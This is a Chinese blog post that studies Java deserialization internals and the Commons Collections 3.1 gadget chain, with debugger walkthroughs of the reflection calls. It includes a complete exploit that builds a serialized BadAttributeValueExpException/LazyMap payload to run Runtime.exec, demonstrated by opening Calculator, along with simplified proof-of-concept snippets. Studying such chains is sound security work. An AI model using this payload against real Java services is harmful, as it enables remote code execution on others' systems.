Java反序列化学习之反序列化流程及反射类源码分析学习
前言
闲着也是闲着入门下java反序列化
通篇文章更多是借用commonscollections学习反序列化和反射的源码
触发反序列化
ObjectInputStream.readObject// 流转化为Object
ObjectInputStream.readUnshared // 流转化为Object
XMLDecoder.readObject // 读取xml转化为Object
Yaml.load// yaml字符串转Object
XStream.fromXML// XStream用于Java Object与xml相互转化
ObjectMapper.readValue// jackson中的api
JSON.parseObject// fastjson中的api反序列化过程
Demo
Human类实现Serializable接口用来序列化，主类showunserial实现Human类的序列化和反序列化.
import java.io.*;
public class showunserial {
public static void main(String[] args) throws IOException, ClassNotFoundException {
Human human = new Human();
human.name="xiaoming";
human.age=18;
File f = new File("/tmp/human.ser");
ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(f));
//将对象输出为字节流
out.writeObject(human);
out.close();
//反序列化
FileInputStream fileInputStream = new FileInputStream("/tmp/human.ser");
ObjectInputStream in = new ObjectInputStream(fileInputStream);
Human e = null;
e = (Human) in.readObject();
in.close();
}
}
class Human implements java.io.Serializable{
public String name;
public int age;
private void readObject(ObjectInputStream in) throws Exception {
in.defaultReadObject();
System.out.println("name: "+ name);
}
}这里利用ObjectInputStream类的readObject方法反序列化Human类.接着会去调用底层的反序列化方法readObject0方法

readObject0关键代码如下,选择对象类型，根据不同类型执行操作。

case 进入TC_OBJECT，执行readOrdinaryObject方法.该方法返回一个obj对象。跟进readClassDesc方法，该方法可以加载Human类的各个属性.调用栈如下


readOrdinaryObject方法继续执行,判断需要反序列化的Human类是否可以实例化，是则调用newInstance方法.

接着执行readSerialData，这里重要是else if语句判断反序列化类是否重写readObject方法,有重写则执行invokeReadObject反射调用重写的readObject方法.

反序列攻击时序图(@廖师傅)

CommonsCollections
该反序列化漏洞点主要利用是InvokerTransformer.transform()方法可调用反射类且类变量可控导致RCE.
环境
<dependency>
<groupId>commons-collections</groupId>
<artifactId>commons-collections</artifactId>
<version>3.1</version>
</dependency>exp
摘自：https://p0sec.net/index.php/archives/121/
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import java.io.*;
import javax.management.BadAttributeValueExpException;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;
public class test {
public static void main(String[] args) throws Exception {
Transformer[] transformers = new Transformer[] {
//传入Runtime类
new ConstantTransformer(Runtime.class),
//反射调用getMethod方法，然后getMethod方法再反射调用getRuntime方法，返回Runtime.getRuntime()方法
new InvokerTransformer("getMethod",
new Class[] {String.class, Class[].class },
new Object[] {"getRuntime", new Class[0] }),
//反射调用invoke方法，然后反射执行Runtime.getRuntime()方法，返回Runtime实例化对象
new InvokerTransformer("invoke",
new Class[] {Object.class, Object[].class },
new Object[] {null, new Object[0] }),
//反射调用exec方法
new InvokerTransformer("exec",
new Class[] {String.class },
new Object[] {"open /System/Applications/Calculator.app"})
};
Transformer transformerChain = new ChainedTransformer(transformers);
Map innerMap = new HashMap();
Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");
BadAttributeValueExpException poc = new BadAttributeValueExpException(null);
// val是私有变量，所以利用下面方法进行赋值
Field valfield = poc.getClass().getDeclaredField("val");
valfield.setAccessible(true);
valfield.set(poc, entry);
File f = new File("poc.txt");
ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(f));
out.writeObject(poc);
out.close();
//从文件中反序列化obj对象
FileInputStream fis = new FileInputStream("poc.txt");
ObjectInputStream ois = new ObjectInputStream(fis);
//恢复对象
ois.readObject();
ois.close();
}
}漏洞分析
InvokerTransformer.transform()中input可控,且能够调用反射类执行input对象方法.

Java中执行系统命令需要调用Runtime.getRuntime.exec()方法.正常写法，但是并不会有程序员直接调用transform且其中参数可控，如下并不通用。
import org.apache.commons.collections.functors.InvokerTransformer;
public class test3 {
public static void main(String[] args) {
InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open /System/Applications/Calculator.app"});
invokerTransformer.transform(Runtime.getRuntime());
}
}ysoserial工具中commoncollections1 Payload利用ChainedTransformer.transform方法,该类能够接受Transformer接口类型的数组，且执行的transform方法循环回调.利用此先传入Runtime.getRuntime()调用反射类返回一个Runtime实例,在循环一次调用exec方法.

poc修改后如下
public class test2{
public static void main(String[] args) {
Transformer[] transformers = new Transformer[] {
//传入Runtime类
new ConstantTransformer(Runtime.class),
//反射调用getMethod方法，然后getMethod方法再反射调用getRuntime方法，返回Runtime.getRuntime()方法
new InvokerTransformer("getMethod",
new Class[] {String.class, Class[].class },
new Object[] {"getRuntime", new Class[0] }),
//反射调用invoke方法，然后反射执行Runtime.getRuntime()方法，返回Runtime实例化对象
new InvokerTransformer("invoke",
new Class[] {Object.class, Object[].class },
new Object[] {null, new Object[0] }),
//反射调用exec方法
new InvokerTransformer("exec",
new Class[] {String.class },
new Object[] {"open /System/Applications/Calculator.app"})
};
Transformer transformerChain = new ChainedTransformer(transformers);
transformerChain.transform("input");
}
}
debug分析，反射类第一个调用如下
new InvokerTransformer("getMethod",
new Class[] {String.class, Class[].class },
new Object[] {"getRuntime", new Class[0] })执行tranform反射类执行getClass获取合法类名，接着执行getMethod获取方法名，再调用invoke方法执行方法.

一开始我不明白为啥iMethdName字段赋值为getMethod,
debug跟进Method method = cls.getMethod(iMethodName, iParamTypes);
底层调用getMethod0方法

根据返回值跟进privateGetMethodRecursive方法,接着跟进privateGetDeclaredMethods方法，该方法获取VM中所有的方法。

继续调用searchMethods方法匹配getMethod，返回反射类中的getMethod方法.
public java.lang.reflect.Method java.lang.Class.getMethod(java.lang.String,java.lang.Class[]) throws java.lang.NoSuchMethodException,java.lang.SecurityException

再来看最后执行的return method.invoke(input, iArgs);，根据调用栈显示invoke0方法会在执行一次反射类的getMehod方法,并进一步搜索getRuntime方法,返回Runtime.getRuntime方法

借此第一次调用反射类就能够得到Runtime.getRuntime方法。但是要得到Runtime对象需要执行Runtime.getRuntime方法。这就有了第二次反射类调用
new InvokerTransformer("invoke",
new Class[] {Object.class, Object[].class },
new Object[] {null, new Object[0] }),这里直接看这里return method.invoke(input, iArgs);执行过程,
底层invoke0调用反射类的invoke方法将Runtime.getRuntime()方法当作参数.

由于二次调用invoke方法，会再执行invoke0方法，这里就可以直接执行Runtime.getRuntime().至此就能够返回Runtime对象.

最后接着就可以执行exec方法，开启计算器.
执行流程类比
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
public class runtime {
public static void main(String[] args) throws NoSuchMethodException, InvocationTargetException, IllegalAccessException {
Object obj = Runtime.class;
Class cls = obj.getClass();
Method method;
method = cls.getMethod("getMethod",new Class[] {String.class, Class[].class });
obj = method.invoke(obj, new Object[] {"getRuntime", new Class[0] });
cls = obj.getClass();
method = cls.getMethod("invoke",new Class[] {Object.class, Object[].class });
obj = method.invoke(obj, new Object[] {null, new Object[0] });
cls = obj.getClass();
method = cls.getMethod("exec",new Class[] { String.class });
method.invoke(obj, new String[] { "open /System/Applications/Calculator.app" });
}
}那么如何利用这个利用链，理想情况下是直接readObject方法直接反序列化或其他触发函数。考虑内置类中的readObject重写且能够相继调用transform方法触发RCE.
exp利用LazyMap类get方法能够执行transform.

利用TiedMapEntry类toString中的getValue方法执行get方法.

最后需要找到触发toString的点，定位到BadAttributeValueExpException类,执行toString方法

总结
java 反序列化太难写了，前前后后调试很久，稍微理解了反序列化机制和commoncollections反序列化流程.
反序列化优先调用重写readObject
利用反射机制可以构造任意类和任意方法并执行
java中类变量赋值通过相应的方法赋值或者直接传入实现.
参考链接
https://docs.oracle.com/javase/8/docs/api/
https://p0sec.net/index.php/archives/121/
https://blog.0kami.cn/2019/10/24/study-java-deserialized-commonscollections3-1/
http://rui0.cn/archives/tag/java/page/2
本博客所有文章除特别声明外，均采用 CC BY-SA 4.0 协议 ，转载请注明出处！